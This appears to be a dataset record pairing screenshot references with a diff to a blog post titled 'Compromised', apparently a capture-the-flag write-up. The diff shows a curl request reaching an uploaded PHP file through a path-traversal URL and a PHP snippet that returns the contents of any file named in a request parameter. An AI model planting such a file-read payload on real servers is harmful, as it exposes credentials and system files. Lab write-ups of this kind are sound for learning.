

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2021-01-23-Compromised.md, in a window 1280 px wide and 1400 px high, scrolled down 9068 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2021-01-23-Compromised.md

````diff
--- a/_posts/2021-01-23-Compromised.md
+++ b/_posts/2021-01-23-Compromised.md
@@ -341,7 +341,8 @@ root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --da
 
 I’ll add some code to my PHP that will run DB queries:
 
-```sploit = <?php
+```bash
+sploit = <?php
 if (isset($_REQUEST['file'])) {
     echo file_get_contents($_REQUEST['file']);
 }
````
